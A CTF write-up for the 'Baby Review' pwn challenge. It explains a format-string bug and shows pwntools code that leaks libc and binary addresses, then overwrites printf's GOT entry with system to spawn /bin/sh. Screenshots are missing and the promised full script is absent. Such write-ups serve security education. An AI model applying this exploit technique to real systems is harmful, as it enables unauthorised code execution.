








# Baby Review

# Challenge

I've created a fun program for you to review your favorite movies and books. Can you figure out the problem with it?

# Solution
We are given a binary. ```file``` gives us the following info:
```baby-review: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c0f2ae97bc7bace37c862e0d5b2c18cb07494501, for GNU/Linux 4.4.0, not stripped```

Okay so a 64 bit non stripped binary. lets take a look.

```
❯ checksec baby-review
[*] '/home/pwn/ctf/damctf/pwn/babyreview/baby-review'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The checksec tells us about the securities in place on this binary. as you can see we have No Canary token. and only partial RELRO

To work on this locally you first need a countries.txt file.
```echo "France,Paris" > countries.txt```

From running the binary it looks like we only have 4 options.

```
1. Read a book?
2. Watch a movie?
3. Review a book/movie
4. Exit
```

But after opening the file in Ghidra 



You can see we also have case 5. add_movie()

add_movie() lets us add our own movie to be displayed in the watch_movie() function.



Our input is passed into printf()

as my input is passed right into printf() we can use this to leak info. Lets give it a go.



and you can see, we are leaking addresses.

Because we can call printf with a format strings bug as many times as we want. I am going to use a GOT overwrite exploit. the GOT is the global offset table. The address of each function is held within the GOT. Format strings have an option to pass %n which lets us overwrite data. 
This blog post will explain it better than I will: https://axcheron.github.io/exploit-101-format-strings/

in this case, we want to replace the address of printf with the address of system. so the next time printf is called. it will call system instead. so we can than pass /bin/sh into system to spawn a shell.

So we need some addresses.

To do that. I have a fuzz script.

```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./baby-review', checksec=False)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

io = process(elf.path)

i = 1
while i <= 100:
    try:
        io = process(elf.path,level='error')
        io.sendlineafter(b'France?',b'Paris')
        io.sendlineafter(b'Exit',b'5')
        payload = f"%{i}$p"
        io.sendline(payload)
        io.sendlineafter(b'Exit',b'2')
        leak = io.recvlines(8)[6]
        print(f"Offset {i} has {leak}")
        i += 1
    except EOFError:
        pass
```

outputs:



So I have some address. the addresses that start with 0x7fxxxxxxxxxx are likely to be libc address. 0x56xxxxxxxx would be addresses of the binary. 

This part takes some trial and error. getting each address and checking inside GDB what its value is.

After trial and error. I found a good leak for the libc and the binary. the 29th offset and the 9th offset.



Inside GDB we can look up that this leak is.



this 29th offset will always leak '\_IO_2_1_stdout_'

So to find the base address of libc we just need to take away '\_IO_2_1_stdout_' from the leak

For the binary I take the leak and minus the base of the binary. This will give us the value that we need to take away from the leak each time to get the base address.

With the two base addresses obtained we just need two more bits of info to overwrite the GOT table. the address of printf in the binary and the address of system in the libc libary.

Because we have the base addresses we can use pwn tools to get these addresses easier.


```
elf.address = bin_main
libc.address = libc_main
```

first set the base address of the binary to our new found addresses.

```
printf_addr = elf.got.printf
libc_system = libc.symbols.system
```

now we have printf and system.

our payload will be as follows:
```
payload =  fmtstr_payload(10, {
    elf.got.printf : libc_system 
    }, write_size='short')
```

the offset of 10 is found from when our input is reflected back in the format strings bug. to find this I used the same fuzz script but added 8 A's to the start of my payload and looked for when 0x41 was reflected.



Sending that payload into the printf will overwrite the GOT table, replacing printf with system so the time time I printf is called, it will actually call system.

```
io.sendline(b'/bin/sh')
```

While the hidden 5th function is adding our payload into the variable that is called in printf, we need to actually make sure the printf function is called. so when exploiting this we need to first go into the 5th menu option and than the 2nd to trigger the payload.

Full script is found above.
(also added a way to get the capital right each time)


